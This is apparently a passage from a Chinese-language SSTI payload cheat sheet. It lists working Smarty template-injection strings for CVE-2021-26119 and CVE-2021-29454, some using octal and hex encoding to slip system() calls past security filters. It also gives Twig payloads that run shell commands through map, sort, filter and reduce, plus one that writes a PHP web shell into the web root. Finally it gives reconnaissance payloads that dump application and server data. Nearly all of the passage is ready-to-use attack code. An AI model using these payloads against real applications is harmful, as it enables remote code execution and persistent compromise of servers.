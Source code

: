 ##### CVE-2021-26119

- 可以通过 {$smarty.template_object} 访问到 smarty 对象所导致。
- 版本限制：这个漏洞还没有被修复，4.1.0 跟 3.1.44 都能注入恶意代码。

```php
string:{$smarty.template_object->smarty->_getSmartyObj()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->enableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->disableSecurity()->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setTemplateDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->addPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setPluginsDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCompileDir('./x')->display('string:{system(whoami)}')}
string:{$smarty.template_object->smarty->setCacheDir('./x')->display('string:{system(whoami)}')}
```

##### CVE-2021-29454

php 的 eval() 支持传入 8 或 16 进制数据，以下代码在 php7 版本都可以顺利执行，由于 php5 不支持 `(system)(whoami);` 这种方式执行代码，所以 php5 的 8 进制方式用不了：

- `libs/plugins/function.math.php` 中的 `smarty_function_math` 执行了 eval()，而 eval() 的数据可以通过 8 进制数字绕过安全处理。
- 版本限制：在 3.1.42 和 4.0.2 中修复，小于这两个版本可用。

```php
eval:{math equation='("\163\171\163\164\145\155")("\167\150\157\141\155\151")'}
eval('("\163\171\163\164\145\155")("\167\150\157\141\155\151");');
eval("\x73\x79\x73\x74\x65\x6d\x28\x77\x68\x6f\x61\x6d\x69\x29\x3b");
```

#### Twig

Twig 是一个灵活、快速、安全的 PHP 模板语言。它将模板编译成经过优化的原始 PHP 代码。Twig 拥有一个 Sandbox 模型来检测不可信的模板代码。

##### POC

`Payload => {{2*3}}`

```php
{{["id"]|map("system")|join(",")
{{["id", 0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0, 0]|reduce("system", "id")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
```

##### 搜集信息

```php
{{_self}} #指向当前应用
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
```
